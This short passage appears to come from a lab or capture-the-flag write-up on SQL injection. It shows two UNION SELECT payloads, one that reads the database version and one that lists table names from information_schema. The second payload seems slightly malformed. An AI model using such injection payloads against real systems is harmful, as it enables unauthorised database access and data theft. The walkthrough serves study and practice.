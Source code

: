 I then used the below query to find the version of the server

```
+UNION+SELECT+1,version(),3,4,5
```

![](IMAGES/19.png)

I then queried the table name from the current database.

```
UNION+SELECT+1,table_name+3,4,5+FROM+information_schema.tables+WHERE+table_schema=database()
```

![](IMAGES/20.png)
